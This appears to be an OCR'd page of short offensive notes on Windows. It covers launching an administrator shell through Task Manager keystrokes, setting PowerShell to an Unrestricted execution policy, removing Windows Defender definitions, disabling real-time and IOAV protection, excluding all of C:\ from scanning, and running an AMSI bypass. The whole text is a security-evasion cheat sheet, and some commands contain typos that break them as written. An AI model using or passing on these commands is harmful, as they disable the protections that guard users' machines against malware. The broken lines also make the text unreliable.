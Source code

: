  # Launch a program as Administrator via Task Manager:
"Start" "Task Manager" ENTER
Alt-F n "powershell" TAB SPACE ENTER
Alt-F n "cmd" TAB SPACE ENTER

# Privilege escalation?

powershell.exe -Version 2 -Command "& {Set-ExecutionPolicy -ExecutionPolicy Unrestricted}"

# Disable AV

"c:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All Set-MpPreference -DiableIOAVProtection $true



run this as admin to completely disable windows defender

Set-MpPreference -DisableRealtimeMonitoring $true



Then IN POWERSHELL
Add an exclusion to AV

Add-MpPreference -ExclusionPath "c:\"

and 

# Disable checking of malicious powershell

"[Ref].Assemply.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').Setvalue($null,$true)"